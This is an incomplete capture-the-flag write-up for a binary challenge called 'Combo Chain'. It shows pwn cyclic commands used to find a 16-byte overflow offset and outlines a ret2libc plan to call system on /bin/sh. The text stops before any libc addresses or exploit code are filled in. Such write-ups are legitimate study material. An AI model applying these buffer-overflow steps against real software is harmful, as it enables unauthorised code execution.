 # Combo Chain (BINARY)

![Title](images/title.png)

## Initial Thoughts

* ROP or ret2libc given the libc

# Walkthrough

## Find the padding if it exists

```bash
pwn cyclic 20 | ./combo-chain ; sudo dmesg | tail
```
	
```bash
pwn cyclic -l 0x0000000061616165
```

* The padding is 16.

We are not given a system address this time but we can ret2libc in order to pop adddress and system the /bin/sh

## Gather the libc addresses necessary

```python
system =
bash = 
